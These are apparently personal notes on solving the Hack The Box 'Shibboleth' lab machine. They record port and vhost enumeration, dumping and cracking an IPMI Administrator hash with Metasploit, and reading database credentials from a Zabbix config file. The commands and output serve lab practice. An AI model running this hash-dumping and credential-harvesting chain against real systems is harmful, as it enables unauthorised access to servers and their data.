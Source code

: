#+TITLE: HTB - Shibboleth
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** nmap -sC -sV shibboleth
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-28 04:22 CET
Nmap scan report for shibboleth (10.129.192.44)
Host is up (0.049s latency).
Not shown: 999 closed ports

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.79 seconds
    #+end_example

*** nmap -p- shibboleth
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-28 04:22 CET
Nmap scan report for shibboleth (10.129.192.44)
Host is up (0.049s latency).
Not shown: 65534 closed ports

PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.71 seconds    
    #+end_example

*** sudo nmap -sU shibboleth.htb -p 623
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-28 04:52 CET
Nmap scan report for shibboleth.htb (10.129.192.44)
Host is up (0.049s latency).
rDNS record for 10.129.192.44: shibboleth

PORT    STATE SERVICE
623/udp open  asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds
    #+end_example

** gobuster
*** gobuster vhost -w ~/repos/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u shibboleth.htb -r
    #+begin_example
==============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shibboleth.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/leo/repos/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2021/11/28 04:39:38 Starting gobuster in VHOST enumeration mode
===============================================================
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]        
    #+end_example
** metasploit
*** msf6 > use auxiliary/scanner/ipmi/ipmi_version
    #+begin_example
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads

msf6 auxiliary(scanner/ipmi/ipmi_version) > set RHOSTS shibboleth.htb
RHOSTS => shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.192.44->10.129.192.44 (1 hosts)
[+] 10.129.192.44:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, n[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed    
    #+end_example

*** msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_dumphashes
    #+begin_example
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting               Required  Description
   ----                  ---------------               --------  -----------
   CRACK_COMMON          true                          yes       Automatically crack common passwords as they are
                                                                  obtained
   OUTPUT_HASHCAT_FILE                                 no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                    no        Save captured password hashes in john the ripper
                                                                  format
   PASS_FILE             /usr/share/metasploit-framew  yes       File containing common passwords for offline cra
                         ork/data/wordlists/ipmi_pass            cking, one per line
                         words.txt
   RHOSTS                                              yes       The target host(s), range CIDR identifier, or ho
                                                                 sts file with syntax 'file:<path>'
   RPORT                 623                           yes       The target port
   SESSION_MAX_ATTEMPTS  5                             yes       Maximum number of session retries, required on c
                                                                 ertain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                             yes       Delay between session retries in seconds
   THREADS               1                             yes       The number of concurrent threads (max one per ho
                                                                 st)
   USER_FILE             /usr/share/metasploit-framew  yes       File containing usernames, one per line
                         ork/data/wordlists/ipmi_user
                         s.txt

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS shibboleth.htb
RHOSTS => shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.192.44:623 - IPMI - Hash found: Administrator:ac8e086e820900002adf145e3530f35c53decaf791c86b0cada1f5bcf944dcb88071ac778bfdf4e3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:26cb991854a05a64da3c77f8c074180e9023da35
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed    
    #+end_example
*** ruby hmac_sha1_crack.rb ~/repos/shibboleth/pass ~/repos/wordlists/rockyou.txt

    Il file ~pass~ era formattato come segue

    #+begin_example
Administrator:ac8e086e820900002adf145e3530f35c53decaf791c86b0cada1f5bcf944dcb88071ac778bfdf4e3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:26cb991854a05a64da3c77f8c074180e9023da35
    #+end_example

    <identifier>:<salt>:<hash>

    #+begin_example
[*] Found 0 passwords with 1 left (129319/s)
[*] Found 0 passwords with 1 left (132009/s)
Administrator:ac8e086e820900002adf145e3530f35c53decaf791c86b0cada1f5bcf944dcb88071ac778bfdf4e3a123456789abcdefa12345678
da3c77f8c074180e9023da35:ilovepumkinpie1
[*] Cracked 1 passwords with 0 left (131875/s)
    #+end_example
** web login

   #+begin_example
Administrator:ilovepumkinpie1
   #+end_example
   
* PrivEsc
** cat zabbix_server.conf | grep DB
   #+begin_example
cat zabbix_server.conf | grep DB
### Option: DBHost
# DBHost=localhost
### Option: DBName
# DBName=
DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix
### Option: DBPassword
DBPassword=bloooarskybluh
### Option: DBSocket
# DBSocket=
### Option: DBPort
# DBPort=
### Option: StartDBSyncers
#       Number of pre-forked instances of DB Syncers.
# StartDBSyncers=4
### Option: DBTLSConnect
#       verify_full - connect using TLS, verify certificate and verify that database identity specified by DBHost
#       On MariaDB starting from version 10.2.6 "required" and "verify_full" values are supported.
# DBTLSConnect=
### Option: DBTLSCAFile
#       (yes, if DBTLSConnect set to one of: verify_ca, verify_full)
# DBTLSCAFile=
### Option: DBTLSCertFile
# DBTLSCertFile=
### Option: DBTLSKeyFile
# DBTLSKeyFile=
### Option: DBTLSCipher
# DBTLSCipher=
### Option: DBTLSCipher13
# DBTLSCipher13=   
   #+end_example

** DB credentials
   #+begin_example
db_name = zabbix
db_user = zabbix
db_password = bloooarskybluh   
   #+end_example

* Resources
  https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/
  https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/
  https://github.com/rapid7/metasploit-framework/blob/master/tools/password/hmac_sha1_crack.rb
  http://fish2.com/ipmi/cipherzero.html
  https://github.com/Al1ex/CVE-2021-27928
